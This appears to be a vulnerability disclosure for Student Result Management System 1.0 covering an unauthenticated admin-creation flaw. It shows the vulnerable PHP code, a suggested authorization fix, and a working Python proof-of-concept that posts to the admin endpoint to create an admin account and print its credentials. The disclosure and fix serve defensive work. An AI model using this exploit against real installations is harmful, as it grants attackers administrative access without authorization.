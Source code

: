 ### Overview
The Student Result Management System 1.0 contains a critical vulnerability that allows unauthenticated creation of admin users, enabling attackers to gain administrative access without prior credentials. Discovered by Gabriel Felipe and tested on Ubuntu 24.04, this flaw affects version 1.0 of the application available on SourceCodester. No CVE has been assigned as of now.


#### Vulnerable PHP code
```php
<?php
chdir('../../');
session_start();
require_once('db/config.php');

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

$fname = ucfirst($_POST['fname']);
$lname = ucfirst($_POST['lname']);
$email = $_POST['email'];
$gender = $_POST['gender'];
$role = '1';
$pass = password_hash($_POST['password'], PASSWORD_DEFAULT);
$status = '1';

try {
$conn = new PDO('mysql:host='.DBHost.';dbname='.DBName.';charset='.DBCharset.';collation='.DBCollation.';prefix='.DBPrefix.'', DBUser, DBPass);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$stmt = $conn->prepare("SELECT email FROM tbl_staff WHERE email = ? UNION SELECT email FROM tbl_students WHERE email = ?");
$stmt->execute([$email, $email]);
$result = $stmt->fetchAll();
```


#### Suggessted fix
```php
// AUTH CHECK - Only allow logged-in users with a privileged level of acess
if (!isset($_SESSION['id']) || !isset($_SESSION['level']) || $_SESSION['level'] != '0') {
    $_SESSION['reply'] = array(array("error", "Unauthorized access."));
    header("location:../");
    exit;
}
```

```python
#!/usr/bin/python3
import argparse
import requests
import random
import string
from threading import Thread

'''Proxy SetUp'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()


def create_user(target):
    url = 'http://' + target + '/srms/admin/core/new_user'
    user_string = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(3))
    username = 'admin_' + user_string + '@watskip.local'
    password = 'Password123!' + user_string
    data = {
        'fnmae': 'Admin_' + user_string,
        'lname': 'new' + user_string,
        'gender': 'Male',
        'email': username,
        'password': password
    }
    response = requests.post(url, data=data, proxies=proxies)
    if response.status_code == 200:
        print('[+] Success.')
        return username, password
    else:
        print('User not created.')
        exit(1)


def parse_args():
    parser = argparse.ArgumentParser(description='SRMS - PoC Create an admin user.')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    return parser.parse_args()

def main():
    args = parse_args()
    print(f"Target: {args.target}")
    print('You can log in with the following credentials:', create_user(args.target))

if __name__ == '__main__':
    main()

```    